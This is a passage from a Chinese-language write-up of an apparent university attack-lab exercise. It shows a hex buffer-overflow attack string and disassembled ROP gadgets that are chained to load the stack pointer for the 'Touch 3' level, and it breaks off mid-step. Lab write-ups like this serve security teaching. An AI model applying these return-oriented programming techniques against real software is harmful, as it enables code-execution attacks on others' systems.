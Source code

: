 10. 所以最终攻击串为

    ```text
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    6a 19 40 00 00 00 00 00
    6c 59 f6 37 00 00 00 00
    61 19 40 00 00 00 00 00
    fe 17 40 00 00 00 00 00
    ```

11. 终于不是 invalid 了, 但是不在 farm 中的函数就不能使用, 这合理吗?

## Touch 3 by ROP

1. 栈的位置是随机的, 因此必须在代码中找到 %rsp 的值, 然后通过偏移量确定 cookie 的地址
2. 先取得栈顶指针的位置
    setval_405

    ```text
    4019a8:	c7 07 d8 48 89 e0       movl    $0xe08948d8, (%rdi)
    4019ae:	c3                      retq
    ```

    从 0x4019ab 开始执行

    ```text
    4019ab: 48 89 e0    mov    %rsp, %rax
    4019ae: c3          retq
    ```

    getval_447 函数

    ```text
    401960:	b8 48 89 c7 90          mov     $0x90c78948, %eax
    401965:	c3                      retq
    ```

    从 0x401961 开始执行

    ```text
    401961: 48 89 c7        mov    %rax, %rdi
    401964: 90              nop
    401965: c3              retq
    ```

    以上实现了 ```mov   %rsp, %rdi```

3. 取出存在栈中得偏移量的值
    addval_180 函数
